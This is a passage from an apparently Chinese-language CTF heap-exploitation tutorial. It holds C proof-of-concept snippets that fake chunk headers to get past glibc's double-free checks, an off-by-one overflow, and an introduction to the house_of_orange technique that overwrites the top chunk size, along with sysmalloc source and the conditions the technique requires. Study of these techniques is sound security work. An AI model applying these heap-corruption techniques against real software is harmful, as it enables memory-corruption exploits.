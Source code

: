 ```c
    //fake prev_inuse to bypass double free;
    *(b+0x4f8)=0x21;
    // overflow!
    *(a+0x108)=0x00;
    //fake next size
    *(c+8)=0x1;

    free(b);
    //-------------------------------------------------------------
    // overflow to b->size
    char *evil=malloc(0x30);
    strcpy(evil,"hahahahahahaha");
    printf("b2:%s\n",a+0xf0);
    return 0;
}
```

## house_of_orange

特点：
-   首次出现在hitcon_2016. 不通过free获得一个被释放的chunk
-   存在堆溢出或者其他可改写`top_chunk`大小的漏洞

```
#include<stdlib.h>
int main(int argc, char const *argv[])
{
        char *a = malloc(0x38);
        //修改top chunk 大小
        *(size_t *)(a - 0x10 + 0x40 + 0x8) = 0xd31;
        a = malloc( 0xe38);
        return 0;
}
```

通过堆溢出修改`top_chunk`的大小,如果`malloc`申请的堆块大小超过了`top_chunk`的大小,将调用`sysmalloc`来进行分配.

`sysmalloc`针对这种情况有两种处理,如果申请大小大于等于`mp_.mmap_threshold`就直接调用`mmap`,否则就扩展`top_chunk`

```
old_top = av->top;
old_size = chunksize (old_top);
old_end = (char *) (chunk_at_offset (old_top, old_size));
brk = snd_brk = (char *) (MORECORE_FAILURE);//无用
assert ((old_top == initial_top (av) && old_size == 0) || ((unsigned long) (old_size) >= MINSIZE && prev_inuse (old_top) && ((unsigned long) old_end & pagemask) == 0));
assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
```

1.  `top_chunk_size > MINSIZE`.`#define MINSIZE (unsigned long)(((MIN_CHUNK_SIZE + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK))`.
2.  `top_chunk`需要有`pre_in_use`的标志(`top_chunk & 1 = 1`).
3.  `top_chunk`的尾部要求页对齐(由于原`top_chunk_size`满足该条件,所以`fake = real % 0x1000 + n * 0x1000`).
4.  `top_chunk_size`小于申请分配的内存.
